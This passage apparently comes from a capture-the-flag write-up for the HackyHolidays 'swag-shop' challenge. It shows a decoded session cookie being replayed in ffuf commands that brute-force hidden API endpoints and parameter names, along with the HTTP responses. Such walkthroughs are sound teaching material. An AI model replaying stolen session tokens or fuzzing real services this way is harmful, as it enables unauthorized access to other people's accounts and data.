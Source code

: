 In particular one session is longer than others and base64 decoding of it gives

```
{
  "user":"C7DCCE-0E0DAB-B20226-FC92EA-1B9043",
  "cookie":"NDU0ODI5MmY3ZDY2MjRiMWE0MmY3NGQxMWE0ODMxMzg2MGE1YWRhMTc0YjhkYWE3MzU1MjZjNDg5MDQ2Y2JhYjY3YTFhY2Q3YjBmYTk4N2Q5ZWQ5MWQ5OWFkNWE2MjIyZmZjMzZjMDQ3ODk5ZmI4ZjZjOWU0OGJhMjIwNmVkMTY="
}
```

From javascript source we see that the session cookie is called  `token`.

After many fuzzing tries, the key to proceed is matching **all** response code, even 400 errors:

```
ffuf -u  https://hackyholidays.h1ctf.com/swag-shop/api/FUZZ \
-w common.txt \
-H 'Cookie: token=NDU0ODI5MmY3ZDY2MjRiMWE0MmY3NGQxMWE0ODMxMzg2MGE1YWRhMTc0YjhkYWE3MzU1MjZjNDg5MDQ2Y2JhYjY3YTFhY2Q3YjBmYTk4N2Q5ZWQ5MWQ5OWFkNWE2MjIyZmZjMzZjMDQ3ODk5ZmI4ZjZjOWU0OGJhMjIwNmVkMTY%3D' \
-t 4 -mc all  -fs 155
```

which finally gives a `user` endpoint which was not known before:

```
sessions                [Status: 200, Size: 2194, Words: 1, Lines: 1]
stock                   [Status: 200, Size: 167, Words: 8, Lines: 1]
user                    [Status: 400, Size: 35, Words: 3, Lines: 1]
```

Visiting this endpoint we find this error message:

```
GET /swag-shop/api/user HTTP/1.1
Host: hackyholidays.h1ctf.com


HTTP/1.1 400 Bad Request
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 16 Dec 2020 06:52:00 GMT
Content-Type: application/json
Connection: close
Content-Length: 35

{"error":"Missing required fields"}
```

Probably the api wants the user id. Fuzzing again with a list of common parameter names
	
```
ffuf -u  'https://hackyholidays.h1ctf.com/swag-shop/api/user?FUZZ=C7DCCE-0E0DAB-B20226-FC92EA-1B9043' \
-w burp-parameter-names.txt \
-H 'Cookie: token=NDU0ODI5MmY3ZDY2MjRiMWE0MmY3NGQxMWE0ODMxMzg2MGE1YWRhMTc0YjhkYWE3MzU1MjZjNDg5MDQ2Y2JhYjY3YTFhY2Q3YjBmYTk4N2Q5ZWQ5MWQ5OWFkNWE2MjIyZmZjMzZjMDQ3ODk5ZmI4ZjZjOWU0OGJhMjIwNmVkMTY%3D' \
-t 4 -mc all  -fs 155
```
